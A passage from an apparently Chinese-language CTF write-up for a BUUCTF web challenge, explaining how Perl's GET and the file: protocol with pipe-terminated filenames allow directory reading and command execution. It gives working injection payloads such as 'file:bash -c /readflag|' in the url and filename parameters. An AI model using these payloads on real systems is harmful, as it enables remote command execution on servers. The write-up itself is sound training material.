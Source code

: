 `perl`的`GET`还能够直接读取目录, 这里不通过底层`open`调用`file`协议,所以对于同目录下有无同名文件没有要求

```
GET /  读取根目录
```

所以回到这道题, 有两种方式读取根目录下的内容,第一种是通过`file`来执行命令

```
?url=file:ls /|&filename=ls /|
这里需要执行两次,第一次创建文件,第二次执行命令后将结果写入创建的文件
```

或者直接读取:

```
?url=/&filename=aaa
```

<img src="../images/buuctf-web3/image-20221027221017805.png" alt="image-20221027221017805" style="zoom:67%;" />

这里看到一个readflag文件,应该是要通过它来读取flag

这里不能直接使用 `/readflag`来执行,因为无法创建开头为`/`的文件

```
url=file:bash -c /readflag|&filename=bash -c /readflag|
访问:http://8b9d61b0-e82c-4d7a-a8dc-87f936afe346.node4.buuoj.cn:81/sandbox/2eeed2f9aeae6311b507ada8fb98809e/bash%20-c%20/readflag%7C
得到flag
```

![image-20221027221831388](../images/buuctf-web3/image-20221027221831388.png)
